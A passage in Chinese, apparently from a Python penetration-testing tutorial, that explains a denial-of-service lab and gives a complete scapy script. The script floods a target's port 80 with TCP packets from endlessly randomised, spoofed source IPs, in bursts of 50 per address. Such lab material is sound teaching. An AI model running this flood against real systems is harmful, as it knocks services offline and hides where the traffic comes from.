 来自攻击者机器的数据包

前面的屏幕截图显示数据包已成功发送。现在，检查目标机器上的输出：

![](img/e8efc7b0-36cc-48fa-8613-3ad99b1fe37d.png)

目标计算机中出现的数据包

在前面的屏幕截图中，矩形框显示端口号。我将让您使用一个端口创建多个 IP。

# 多 IP、多端口

在本节中，我们将讨论具有多个端口地址的多 IP。在这种攻击中，我们使用不同的 IP 将数据包发送到目标。多个 IP 表示欺骗 IP。以下程序将从伪造的 IP 发送大量数据包：

```py
import random
from scapy.all import *
target = raw_input("Enter the Target IP ")

i=1
while True: 
  a = str(random.randint(1,254))
  b = str(random.randint(1,254))
  c = str(random.randint(1,254))
  d = str(random.randint(1,254))
  dot = "."
  src = a+dot+b+dot+c+dot+d
  print src
  st = random.randint(1,1000)
  en = random.randint(1000,65535)
  loop_break = 0
  for srcport in range(st,en): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    loop_break = loop_break+1
    i=i+1
    if loop_break ==50 :
      break
```

在前面的代码中，我们使用了`a`、`b`、`c`和`d`变量来存储四个随机字符串，范围从`1`到`254`。`src`变量存储随机 IP 地址。在这里，我们使用了`loop_break`变量在`50`数据包之后中断`for`循环。这意味着 50 个数据包来自一个 IP，而其余代码与前一个相同。

